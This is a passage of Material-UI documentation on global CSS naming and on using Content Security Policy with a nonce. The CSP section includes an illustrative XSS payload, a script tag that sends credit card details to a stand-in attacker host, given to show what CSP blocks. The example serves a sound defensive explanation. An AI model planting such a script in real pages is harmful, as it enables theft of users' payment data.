 - Global CSS is inherently fragile. People use strict methodologies like [BEM](http://getbem.com/introduction/) to workaround the issue.
- It's harder to keep track of `classes` API changes.

⚠️ When using `dangerouslyUseGlobalCSS` standalone (without Material-UI), you should name your style sheets using the `options` parameter:

```jsx
// Hook
const useStyles = makeStyles(styles, { name: 'button' });

// Styled-components
const Button = styled(styles, { name: 'button' })(ButtonBase);

// Higher-order component
const Button = withStyles(styles, { name: 'button' })(ButtonBase);
```

## Content Security Policy (CSP)

### What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add a server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/next/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```
